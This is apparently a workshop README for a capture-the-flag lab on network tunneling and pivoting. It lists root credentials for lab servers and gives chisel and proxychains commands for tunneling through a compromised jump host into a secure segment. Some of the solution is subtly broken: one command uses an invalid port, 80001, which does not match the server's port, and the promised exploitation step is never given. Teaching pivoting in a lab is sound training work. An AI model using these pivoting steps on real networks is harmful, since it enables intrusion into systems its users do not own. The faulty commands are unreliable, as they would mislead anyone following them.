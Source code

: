 # Network Tunneling And Pivoting Workshop
## Overview
The participants will learn how to set up and use network tunneling and pivoting techniques to access and exploit services in a simulated environment. The workshop will cover the following topics:

1. Introduction to Network Tunneling & Socks
2. Setting Up `chisel` for Port Forwarding
3. Using ProxyChains for Application Tunneling
4. Introduction to Pivoting Techniques
5. Exploiting Internal Services via Pivoting
6. Hands-On Lab: Real-World Scenarios

## CTF
### Scenario
During a covert red team operation, the team compromised the following servers and set their root passwords:
- Jump: 172.16.5.3:22 - root:hackme123
- Secure: 192.168.80.30:22 - root:Aa123456
The network topology consists of two segments: an internal segment (172.16.5.0/24) and a secure segment (192.168.80.0/24). The jump server (172.16.5.3) acts as a bridge between these two segments. The attacker sits on the internal segment 172.16.5.2.
It is known that the Secure server is running a vulnerable web application on port 80.
The objective is to use the compromised servers to pivot into the secure segment and access sensitive data in the web application.

### Tasks
1. Establish a reverse `chisel` tunnel from the attacker to the Jump server.
2. Use the Jump server as proxy to establish `chisel` tunnel to the Secure server.
3. Exploit the web application to retrieve sensitive data.

### Steps of Solution
1. Connect to attacker machine and set up reverse `chisel` tunnel to Jump server. ``chisel server -p 8000 --reverse`` on Jump server and ``chisel client 172.16.5.3:8000 R:50001:socks`` on attacker machine.
2. Edit `/etc/proxychains4.conf` on attacker machine add the tunnel as a proxy `socks5 127.0.0.1 50001`
3. Connect to Secure via ssh from Jump and establish `chisel` tunnel from Secure to attacker using Jump as a proxy. ``chisel server -p 8001 --socks5`` on Secure server and ``chisel client --proxy socks://127.0.0.1:50001 192.168.80.30:80001 50002:socks`` on attacker machine.
4. Edit `/etc/proxychains4.conf` on attacker machine update the port for the new tunnel proxy `socks5 127.0.0.1 50002`
5. Use proxychains to route traffic through the established tunnels and access the web server.